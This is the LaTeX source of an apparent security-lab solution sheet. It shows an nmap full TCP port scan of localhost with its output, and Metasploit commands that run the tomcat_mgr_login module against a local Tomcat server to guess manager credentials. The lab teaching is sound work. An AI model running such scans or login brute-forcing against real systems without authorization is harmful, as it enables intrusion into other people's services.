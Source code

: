\documentclass[a4paper,11pt]{article}
\newenvironment{solution}%
{\par\begin{minipage}{\linewidth}{\noindent\small\textit{Solution}\\}\begin{boxedminipage}{\linewidth}}%
{\end{boxedminipage}\end{minipage}\par\bigskip}
\begin{document}
\begin{itemize}
\item What nmap commands did you use to find the port on which the
  web-server was running? How does nmap find open ports?
\ifsolution\begin{solution}

The Tomcat web server serves the HTML pages over the HTTP protocol. The HTTP is an application layer protocol that relies on TCP to transfer the information between computers. For this reason, we need to scan all TCP ports on which the host 127.0.0.1 is listening to, using the command:

\begin{lstlisting}
nmap -sT -p1-65535 127.0.0.1
\end{lstlisting}

This command performs a simple TCP connect() operation. This is the most basic form of TCP scanning. The connect() system call provided by Linux operating system is used to open a connection to every port
from range 1 to 65535. If the port is listening, connect() will succeed, otherwise the port is not reachable. 

\bigskip
The result of the port scanning is:

\begin{lstlisting}
Starting Nmap 6.47 ( http://nmap.org ) at 2015-10-20 20:58 CEST
Nmap scan report for localhost.localdomain (127.0.0.1)
Host is up (0.00040s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE
8005/tcp  open  mxi
42423/tcp open  unknown
52034/tcp open  unknown
\end{lstlisting}

The possible ports on which the Tomcat server is listening to are: 8005, 42423 and 52034. 

\end{solution}\fi

\newpage 
\item How did you find the username and password that the web-server
  used? What exploits did you use and how do they work?
  \ifsolution\begin{solution}
The most suitable exploit for this attack is:

\begin{lstlisting}
 auxiliary/scanner/http/tomcat_mgr_login: Tomcat Application Manager Login Utility
\end{lstlisting}

\bigskip

We begin the penetration testing with port \textbf{8005} as follows:
\begin{lstlisting}
msf> use auxiliary/scanner/http/tomcat_mgr_login 
msf auxiliary(tomcat_mgr_login) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf auxiliary(tomcat_mgr_login) > set RPORT 8005
RPORT => 8005
msf auxiliary(tomcat_mgr_login) > exploit
\end{lstlisting}


\end{solution}
\end{itemize}
\end{document}
